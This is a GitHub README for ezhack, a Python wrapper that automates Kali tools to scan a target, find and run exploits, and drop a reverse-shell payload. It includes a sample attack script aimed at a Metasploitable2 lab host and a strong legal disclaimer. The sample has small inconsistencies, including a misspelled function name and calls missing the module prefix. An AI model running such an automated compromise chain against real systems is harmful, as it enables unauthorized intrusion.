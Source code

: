 # EZHACK
Running the same commands can be boring. Why not keep things simple?

This tool is to be used on Kali Linux with only default tools installed (latest version as of March 2019). ParrotOS is what I use and if you have never tried it then I recommend you do! The guide will reference both as Kali for simplicity.
https://www.parrotsec.org/

## Setup

For this project you need Python3.* which comes installed on Kali by default. To get the module run:
`git clone https://github.com/burtonyaboy/ezhack.git`
Then:
`cd ezhack`

*note: all the necessary python modules should be installed, however, if you run into problems, run pip3 install -r requirements.txt* 

In the future, I may write a setup.py, but for now just build your project in the ezhack directory.
To use ezhack import it to your project:
`import ezhack as ez`

## Sample Usage
The functions include scan_for_hosts, scan_target, build_payload, search_for_exploits, exlpoit_target, drop_payload and handle_host. The data is returned to a Host object provided by ezhack, otherwise in json format, with the addition af a scan.xml file generated by nmap for used with searchsploit. Below is an example of a script that attacks a Metasploitable2.

*SERIOUS DISCLAIMER: DO NOT TARGET A NETWORK OR HOST IF YOU DO NOT OWN IT OR DO NOT HAVE EXPLICIT WRITTEN PERMISSION TO DO SO. THE AUTOMATED NATURE OF THIS TOOL MEANS THAT THESE ATTACKS ARE EASY TO DETECT AND ARE WELL KNOWN. IF YOU USE ANY OF THESE TOOLS IN AN ILLEGAL MANNER YOU WILL BE DISCOVERED AND LEGAL ACTION MAY BE TAKEN INCLUDING FINES, COURT MANDATED RESTRICTIONS OR JAILTIME. IF YOU HAVE ANY QUESTION THAT YOU SHOULD NOT BE ATTACKING A NETWORK OR HOST, STOP NOW. I CLAIM NO RESPONSIBILITY FOR HOW YOU DECIDE TO USE THIS TOOL WHICH IS BUILT PURELY FOR EDUCATIONAL AND RESEARCH PURPOSES.*
If you have any questions or interest in the penalties for cybercrime, check out these links:
US penalties: https://www.cga.ct.gov/2012/rpt/2012-r-0254.htm
State penalties: http://www.ncsl.org/research/telecommunications-and-information-technology/computer-hacking-and-unauthorized-access-laws.aspx

~~~{.python}
import ezhack as ez

host = ez.Host(ip="192.168.1.3")

def main():
    scan_target(host) # default is aggressive scan
    search_for_exploits(host)
    payload = build_payload(host) # default is reverse shell
    session = exploit_target(host)
    drop_payload(payload,session)
    priv = handle_host(cmd="id")
    print(priv)
    
if __name__ == '__main__':
    main()
~~~

## Notes
This project is still in development. More documentation and functionality will come soon.
